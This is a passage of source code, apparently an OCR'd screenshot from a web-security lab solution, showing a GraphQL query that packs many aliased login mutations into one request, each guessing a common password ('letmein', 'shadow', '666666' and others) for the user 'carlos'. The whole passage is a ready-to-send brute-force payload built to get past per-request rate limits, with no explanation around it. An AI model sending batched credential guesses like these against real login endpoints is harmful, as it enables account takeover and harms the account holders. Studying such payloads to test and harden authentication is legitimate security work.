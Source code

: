 ``` json
    token
    success
  }
  bruteforce15: login(input: { password: "letmein", username: "carlos" }) {
    token
    success
  }
  bruteforce16: login(input: { password: "shadow", username: "carlos" }) {
    token
    success
  }
  bruteforce17: login(input: { password: "master", username: "carlos" }) {
    token
    success
  }
  bruteforce18: login(input: { password: "666666", username: "carlos" }) {
    token
    success
  }
  bruteforce19: login(input: { password: "qwertyuiop", username: "carlos" }) {
    token
    success
  }
  bruteforce20: login(input: { password: "123321", username: "carlos" }) {
    token
    success
  }
  bruteforce21: login(input: { password: "mustang", username: "carlos" }) {
    token
    success
  }
  bruteforce22: login(input: { password: "1234567890", username: "carlos" }) {
    token
    success
  }
  bruteforce23: login(input: { password: "michael", username: "carlos" }) {
    token
    success
  }
  bruteforce24: login(input: { password: "654321", username: "carlos" }) {
    token
    success
  }
  bruteforce25: login(input: { password: "superman", username: "carlos" }) {
    token
    success
  }
  bruteforce26: login(input: { password: "1qaz2wsx", username: "carlos" }) {
    token
    success
  }
  bruteforce27: login(input: { password: "7777777", username: "carlos" }) {
    token
    success
  }
  bruteforce28: login(input: { password: "121212", username: "carlos" }) {
    token
    success
  }
  bruteforce29: login(input: { password: "000000", username: "carlos" }) {
    token
    success
  }
```